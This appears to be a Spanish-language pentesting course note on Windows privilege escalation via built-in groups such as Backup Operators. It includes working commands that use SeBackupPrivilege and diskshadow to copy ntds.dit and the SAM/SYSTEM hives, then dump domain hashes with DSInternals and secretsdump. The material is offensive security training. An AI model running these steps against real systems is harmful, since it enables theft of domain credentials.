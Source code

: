 # Windows Privilege Escalation: Built-in Groups

## Resumen

Windows incluye varios grupos integrados con privilegios especiales, sobre todo en servidores y controladores de dominio. Algunos de estos grupos pueden usarse para escalar privilegios si se compromete una cuenta miembro. Esta nota resume los principales grupos y el uso del privilegio **SeBackupPrivilege** para acceder a archivos protegidos como `ntds.dit`, `SAM` y `SYSTEM`.

## Grupos integrados relevantes

- **Backup Operators**
- **Event Log Readers**
- **DnsAdmins**
- **Hyper-V Administrators** *(desde Server 2012)*
- **Print Operators**
- **Server Operators**

> Es importante auditar la membresía de estos grupos y verificar si hay cuentas con acceso innecesario o excesivo.

## Backup Operators y SeBackupPrivilege

- **Permisos otorgados**: `SeBackupPrivilege` y `SeRestorePrivilege`
- Permite **leer cualquier archivo del sistema**, ignorando las ACLs (listas de control de acceso).
- No se puede usar `copy` directamente. Se necesita usar librerías con `FILE_FLAG_BACKUP_SEMANTICS`.

### Activación de privilegios en PowerShell:

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege
Set-SeBackupPrivilege
```

### Verificación del privilegio:

```powershell
whoami /priv
```

### Ejemplo: copiar archivo protegido

```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

## Ataque a un Domain Controller (DC)

### Objetivo: copiar `ntds.dit` usando shadow copy

```powershell
diskshadow.exe
> set verbose on
> set metadata C:\Windows\Temp\meta.cab
> set context clientaccessible
> begin backup
> add volume C: alias cdrive
> create
> expose %cdrive% E:
> end backup
exit
```

Ahora el volumen `E:` contiene una copia de la partición `C:`.

### Copiar `ntds.dit`

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Copiar hives del registro

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

> ⚠️ Si hay una entrada explícita de denegación en la ACL para el usuario, ni `SeBackupPrivilege` permitirá acceder.

## Extracción de hashes

### Usando DSInternals:

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### Usando Impacket secretsdump:

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## Alternativa con Robocopy (sin recursos externos)

Robocopy permite copiar archivos usando modo backup (`/B`).

```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

## Recomendaciones para el pentester

- Siempre revisar la membresía de los grupos privilegiados.
- Documentar qué cuentas tienen `SeBackupPrivilege` habilitado.
- Si se explota el privilegio, dejar constancia detallada de:
  - Qué archivos se accedieron (ej: `ntds.dit`, `SAM`, `SYSTEM`).
  - Qué hashes se extrajeron.
  - Qué herramientas se usaron (`DSInternals`, `secretsdump.py`, etc.).
- Sugerir eliminación de membresías innecesarias y mejoras en políticas de contraseñas.

